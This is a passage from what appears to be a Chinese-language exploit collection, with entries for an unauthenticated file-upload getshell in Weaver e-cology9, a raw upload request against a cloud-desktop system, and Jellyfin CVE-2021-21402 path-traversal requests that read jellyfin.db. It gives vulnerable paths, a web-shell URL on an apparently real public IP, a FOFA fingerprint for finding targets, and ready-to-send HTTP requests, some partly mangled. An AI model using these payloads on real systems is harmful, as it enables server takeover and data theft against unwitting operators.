 ![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsXnJ0qvJzMm2XNrF0X3CKw9KicZf4ztXrqFYPzicyVuAL7NNew5qd0IibQ/640?wx_fmt=png)

**0x06 泛微 OA e-cology9 前台无限制 Getshell**

```
## 漏洞位于/page/exportImport/uploadOperation.jsp文件中
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03Jiaibqs2Yd9v09tEJcB2PQ2Y5XG3iaj6u2OpJHYewcN2hiaqIlP2666ia5SAyOAQ/640?wx_fmt=png)

```
## 利用过程
对着http://127.0.0.1/page/exportImport/uploadOperation.jsp
加一个multipartRequest就可以
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsF3jTFQmA2KibUBOsQLh3EWH0ic9ibyJDhJV2YudajykjkdXUwp0nsDTvw/640?wx_fmt=png)

```
## 请求路径
view-source:http://112.91.144.90:5006/page/exportImport/fileTransfer/1.jsp
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsWW8kzoEliaBVa6ohcYS0k9Gribic8ggDwwic5JGrM4t8p1KRdicImygjyHw/640?wx_fmt=png)

**0x07 和信创天云桌面系统命令执行**

```
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: x.x.x.xUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Referer: x.x.x.x
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 164

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; 
Content-Type: image/avif

------WebKitFormBoundaryfcKRltGv--
```

**0x08 CVE-2021-21402 Jellyfin 任意文件讀取漏洞**

```
## 影响版本
jellyfin<=10.7.0
## FOFA指纹
title="Jellyfin"

## POC-1
GET /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ HTTP/1.1
Host: x.x.x.x
accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Referer: http://x.x.x.x/web/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

## POC-2
GET /Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db HTTP/1.1
```